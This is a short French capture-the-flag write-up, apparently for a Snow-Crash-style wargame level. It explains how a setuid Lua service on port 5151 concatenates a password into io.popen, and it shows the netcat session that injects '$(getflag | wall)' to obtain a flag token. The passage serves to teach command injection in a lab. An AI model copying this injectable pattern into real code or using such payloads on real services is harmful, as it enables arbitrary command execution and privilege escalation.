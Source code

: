 # Level 11

Home structure
```
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
Le script lua, va ecouter sur le port `5151` et demande un mot de passe mais le plus important c'est la fonction de hash pour le mot de passe. On voit qu'il utilise `popen` de lib io. Ce que fait `popen`, est de tout simplement exécuter le premier paramètre dans bash (Comme dans `system()`).
<br/>
Ce qui voudrait dire qu'on pourrait exécuter n'importe quel commande via le paramètre pass de la fonction `hash`.
```lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
...
```
On se connecte donc via `netcat`, il nous demande un mot de passe et on lui donne la command à exécuter dans un sous shell et le broadcast à tous les users.

```
$ nc 127.0.0.1 5151
Password: $(getflag | wall)

Broadcast Message from flag11@Snow
        (somewhere) at 15:32 ...

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Erf nope..
```
